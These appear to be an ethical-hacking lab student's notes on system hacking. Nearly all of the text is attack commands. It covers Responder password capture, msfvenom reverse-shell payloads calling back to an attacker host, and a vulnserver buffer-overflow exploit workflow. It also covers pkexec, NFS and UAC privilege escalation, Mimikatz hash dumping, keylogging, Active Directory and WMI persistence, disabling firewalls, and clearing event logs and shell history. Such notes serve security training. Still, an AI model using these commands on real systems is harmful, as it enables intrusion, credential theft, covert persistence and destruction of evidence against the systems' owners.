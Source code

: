 # System hacking

## Gain access to the system

- Perform active online attack to crack the system’s password using Responder

```bash
responder -I eth0 ---------------  sudo ./Responder.py -I ens3
sudo john /home/ubuntu/Responder/logs/[Log File Name.txt]
```

- Audit system passwords using L0phtCrack
Password Auditing Wizard

- Find vulnerabilities on exploit sites
<https://www.exploit-db.com/>
VulDB <https://vuldb.com>
MITRE CVE <https://cve.mitre.org>
Vulners <https://vulners.com>
CIRCL CVE Search <https://cve.circl.lu>

- Exploit client-side vulnerabilities and establish a VNC session
`msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -fexe LHOST=[IP Address of Host Machine] LPORT=444 -o /home/attacker/Desktop/Test.exe`

```bash
msfconsole
use exploit/multi/handler
...
```

`upload /root/PowerSploit/Privesc/PowerUp.ps1 PowerUp.ps1`
`powershell -ExecutionPolicy Bypass -Command “. .\PowerUp.ps1;Invoke-AllChecks”`
`run vnc`

- Gain access to a remote system using Armitage
Pentesting --> Exploitation Tools --> MetasploitFramework --> armitage
Nmap Scan --> Intense Scan
Create payload
Work with meterpreter shell

- Gain access to a remote system using Ninja Jonin
Ninja is installed in victim machine and Jonin is installed on the attacker machine
modifiy constants.json set ip and port
when receiving access denied on listener "list" -> "connect 1" -> change -> cmd

- Perform buffer overflow attack to gain access to a remote system  
    1. Start vulnserver as administrator  
    2. Start and attach to process Immunity debugger  
    3. Create file:  
        trun.spk  
            s_readline();  
            s_string("TRUN ");  
            s_string_variable("0");  
        generic_send_tcp 10.10.1.11 9999 trun.spk 0 0
    4. Relaunch vulnserver  
    5. execute fuzz.py
    6. generate pattern /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 11900
    7. relaunch vulnserver
    8. execute findoff.py after pasting pattern
    9. /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 11900 -q 386F4337 (last value from EIP in immunity debugger)  
    10. overwrite.py
    11. badchars.py  
    12. in immunity debugger: 
        follow in DUMP ESP value (right click)  
    13. restart immunity debugger:  
        !mona modules (copy mona.py in pycommands program files immunity debugger)  
    14. /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb  
        JMP ESP  --> FFE4  
        EXIT
    15. !mona find -s “\xff\xe4” -m essfunc.dll --> 0x625011af  
    16. set breakpoint with go to disassembler and execute jump.py  
    17. msfvenom -p windows/shell_reverse_tcp LHOST=10.10.1.13 LPORT=4445 EXITFUNC=thread -f c -ax86 -b “\x00”
    19. nc -lvnp 4445
    18. copy the generated shellcode and execute shellcode.py

## Perform privilege escalation to gain higher privileges

- Escalate privileges using privilege escalation tools and exploit client-side vulnerabilities
`msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=10.10.1.13 -f exe >/home/attacker/Desktop/Exploit.exe`
start msfconsole (exploit -j -z)
beRoot.exe
GhostPack
    Seatbelt.exe -group=system
    Seatbelt.exe -group=user
    Seatbelt.exe -group=misc
                 -group=all
                 -group=slack
                 -group=chromium
                 -group=remote
                                -outputfile=""
`use exploit/windows/local/bypassuac_fodhelper` --> `getsystem -t 1`
run post/windows/gather/smart_hashdump

- Hack a Windows machine using Metasploit and perform post-exploitation using Meterpreter

```bash
getuid
timestomp file -m
keyscan_start
keyscan_dump
idletime
```

```bash
dir /a:h
sc queryex type=service state=all
netsh firewall show state
netsh firewall show config
wmic /node:"" product get name,version,vendor
wmic cpu get
wmic useraccount get name,sid
wmic os where Primary='TRUE' reboot
netsh advfirewall set currentprofile state off
netsh advfirewall set allprofiles state off
```

- Escalate privileges by exploiting vulnerability in pkexec
CVE-2021-4034
make

- Escalate privileges in Linux machine by exploiting misconfigured NFS

```bash
sudo apt install nfs-kernel-server
sudo nano /etc/exports --> /home *(rw,no_root_squash)
sudo /etc/init.d/nfs-kernel-server restart
```

```bash
to configure nfs server
    sudo nano /etc/exports
-- type /home *(rw,no_root_squash)

sudo apt-get install nfs-common
showmount -e 10.10.1.9
sudo mount -t nfs 10.10.1.9:/home /tmp/nfs
sudo cp /bin/bash .
sudo chmod +s bash
ps -ef
```

- Escalate privileges by bypassing UAC and exploiting Sticky Keys

```bash
use post/windows/manage/sticky_keys
```

- Escalate privileges to gather hashdump using Mimikatz
load kiwi
lsa_dump_sam
lsa_dump_secrets
password_change -u Admin -n [NTLM hash of Admin acquired in previous step] -P password

## Maintain remote access and hide malicious activities

- User system monitoring and surveillance using Power Spy
windows software

- User system monitoring and surveillance using Spytech SpyAgent
windows software

- Hide files using NTFS streams
type c:\magic\calc.exe > c:\magic\readme.txt:calc.exe
mklink backdoor.exe readme.txt:calc.exe

- Hide data using white space steganography
snow -C -m "My swiss bank account number is 45656684512263" -p "magic" readme.txt readme2.txt
snow -C -p "magic" readme2.txt

- Image steganography using OpenStego and StegOnline
openstego windows software
<https://stegonline.georgeom.net/upload>

- Maintain persistence by abusing boot or logon autostart execution
`cd “C:\\ProgramData\\Start Menu\\Programs\\Startup”`

- Maintain domain persistence by exploiting Active Directory Objects
When an Active Directory group is marked a protected group; Active Directory will ensure that the owner, the ACLs and the inheritance applied on this group are the same as the ones applied on AdminSDHolder container

after getting a meterpreter shell
    upload -r /home/attacker/PowerTools-master C:\\Users\\Administrator\\Downloads
    powershell
        Import-Module ./powerview.psm1
        Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName Martin -Verbose -Rights All
        Get-ObjectAcl -SamAccountName "Martin” -ResolveGUIDs
        REG ADD HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /V AdminSDProtectFrequency /TREG_DWORD /F /D 300
        net group “Domain Admins” Martin /add /domain

- Privilege escalation and maintain persistence using WMI
upload /home/attacker/Wmi-Persistence-master C:\\Users\\Administrator\\Downloads
load powershell
powershell_shell
Import-Module ./WMI-Persistence.ps1
Install-Persistence -Trigger Startup -Payload “C:\Users\Administrator\Downloads\wmi.exe”

- Covert channels using Covert_TCP
cc -o covert_tcp covert_tcp.c
tcpdump -nvvx port 8888 -i lo
./covert_tcp -dest 10.10.1.9 -source 10.10.1.13 -source_port 9999 -dest_port 8888 -server -file/home/ubuntu/Desktop/Receive/receive.txt
./covert_tcp -dest 10.10.1.9 -source 10.10.1.13 -source_port 8888 -dest_port 9999 -file/home/attacker/Desktop/Send/message.txt

## Clear logs to hide the evidence of compromise

- View, enable, and clear audit policies using Auditpol
windows tool
auditpol /get /category:*
auditpol /set /category:"system","account logon" /success:enable /failure:enable --> to enable
auditpol /clear /y

- Clear Windows machine logs using various utilities
Clear_Event_Viewer_Logs.bat

wevtutil el
wevtutil cl [log_name]

cipher /w:[Drive or Folder or File Location] -- The Cipher.exe utility starts overwriting the deleted files, first, with all zeroes (0x00); second, with all 255s (0xFF); and finally,with random numbers

- Clear Linux machine logs using the BASH shell

export HISTSIZE=0 -- disable shell log
history -c
shred ~/.bash_history && cat /dev/null >.bash_history

- Hiding artifacts in windows and Linux machines
folder
    attrib +h +s +r Test (attrib -s -h -r Test)
user
    net user Test /add
    net user Test /active:yes
    net user Test /active:no
on linux 
    prepend . in file name

- Clear Windows machine logs using CCleaner
windows software
